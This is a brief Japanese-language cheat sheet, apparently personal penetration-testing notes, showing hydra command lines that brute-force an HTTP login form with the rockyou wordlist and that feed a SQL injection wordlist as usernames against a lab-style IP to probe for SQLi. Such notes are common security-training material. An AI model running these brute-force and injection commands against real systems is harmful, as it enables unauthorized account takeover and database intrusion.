 # hydra
- 力こそパワー!BruteForce!

## usage
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"`

## その他テクニック
`hydra -L SQL.txt -p pass 10.10.192.4 http-post-form “/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login” -f`
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める
